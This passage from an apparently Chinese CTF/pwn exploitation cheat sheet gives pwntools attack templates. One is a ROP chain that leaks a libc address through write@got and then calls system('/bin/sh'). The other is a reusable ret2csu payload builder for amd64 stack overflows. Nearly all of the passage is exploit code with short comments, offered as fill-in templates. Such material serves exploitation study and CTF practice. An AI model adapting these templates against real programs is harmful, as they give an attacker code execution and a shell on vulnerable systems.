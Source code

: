 ```python
    context.update(arch='i386/amd64', os='linux', endian='little')
    elf = Elf('')
    io = process('')
    rop = ROP(elf)
    rop.raw(b'xxx') # 前面的填充
    rop.call('write', [1, elf.got['write'], 0x10]) # 调用write函数
    rop.call('main', []) # 回到main函数
    print(rop.dump()) # 这里打印下rop，可以检查一下有没有问题
    payload = rop.chain() # 生成payload
    io.send(payload)
    leak_addr = io.recv()
    # 利用libc来计算
    libc = LibcSearcher('write', leak_addr)
    libc_base_addr = leak_addr - libc.dump('write')
    system_addr = libc_base_addr + libc.dump('system')
    str_bin_sh = libc_base_addr + libc.dump('str_bin_sh')
    # 这里调用system可以这样
    rop = ROP(elf)
    rop.raw(b'xxx')
    rop.call(system_addr, [str_bin_sh])
    io.send(rop.chain())
```

#### 2.4 ret2csu

**使用**：这是一个万能的`gadget`，主要针对`amd64`架构的程序，一般是程序中找不到`pop rdx  ; ret`的`gadget`，泄露函数是`write`，写入的函数是`read`，反正是需要传入三个参数。还有一个前提，栈溢出至少需要`128`个字节，或者更多。

**攻击模板**

```python
def ret2csu(csu_end_addr:int, csu_start_addr:int, ret_addr:int,
            r12, r13, r14, r15, rbx=0, rbp=1):
    """
    return2csu
    一般程序找不到pop rdx的gadget，需要利用write或者read函数。
    这里需要找好r13 r14 r15和rdi rsi rdx之间的对应关系，还要分清是rdi还是edi
    如果是edi，只能控制低4个字节的内容
    此处示例为r13---rdx r14---rsi r15---edi
    """
    io = process('')
    cur_elf = ELF('')
    
    # ret2csu
    payload = b'a' * 0x0 # 前面的填充
    payload += p64(csu_end_addr) # 这个地址一般对应的指令为pop rbx
    payload += p64(rbx) # 0 为了能直接call r12 ptr 
    payload += p64(rbp) # 1 绕过cmp指令
    payload += p64(r12) # 填func@got，调用r12存储的地址处的函数，注意这里指令是call ptr
    payload += p64(r13) # 对应的是rdx
    payload += p64(r14) # 对应的是rsi
    payload += p64(r15) # 对应的edi
    payload += p64(csu_start_addr) # 这里对应的指令一般是mov rdx r13
    payload += 0x38 * b'a' # 栈会被抬高0x38个字节，这里也可以布局rbp的值，用于后续栈迁移等
    payload += p64(ret_addr) # 调用完csu链后返回的地址，比如main函数地址
    
    print("len of payload:{}".format(payload))
    io.send(payload)
```
